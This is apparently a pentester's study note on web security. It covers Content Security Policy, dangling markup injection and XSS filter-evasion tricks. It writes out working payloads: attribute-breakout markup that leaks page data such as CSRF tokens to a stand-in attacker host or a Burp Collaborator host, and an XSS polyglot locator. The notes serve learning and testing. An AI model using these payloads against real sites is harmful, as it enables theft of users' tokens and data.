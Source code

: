 - CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.
- To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.
---
# Dangling markup injection
Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
Suppose an application embeds attacker-controllable data into its responses in an unsafe way:
`<input type="text" name="input" value="CONTROLLABLE DATA HERE`
Suppose also that the application does not filter or escape the `>` or `"` characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:
`"><img src='//attacker-website.com?`
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
The impact is that we may capture CSRF tokens or emails or any sensitive data.

### Bypass img wildcard 
```
"><table background='//your-collaborator-id.burpcollaborator.net?'
```
## NOTE
- The Chrome browser has decided to tackle dangling markup attacks by preventing tags like `img` from defining URLs containing raw characters such as angle brackets and newlines. This will prevent attacks since the data that would otherwise be captured will generally contain those raw characters, so the attack is blocked.

# Evasion techniques
## Navigation
- **[[#XSS Locator Polygot]]**
- **[[#Image XSS Using the JavaScript Directive]]**
- **[[#No Quotes and no Semicolon]]**
- **[[#Case Insensitive XSS Attack Vector]]**
- **[[#HTML Entities]]**
- **[[#Grave Accent Obfuscation]]**
- **[[#Malformed A Tags]]**
- **[[#Malformed IMG Tags]]**
- **[[#FromCharCode]]**
- **[[#Default SRC Tag to Get Past Filters that Check SRC Domain]]**
- **[[#Image XSS Using the JavaScript Directive]]**
- **[[#Decimal HTML Character References]]**
- **[[#INPUT Image]]**
### XSS Locator (Polygot)
This test will execute in multiple contexts including html, script string, js and url.
```js
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```
### Image XSS Using the JavaScript Directive
\***IE7.0** doesn’t support the JavaScript directive in context of an image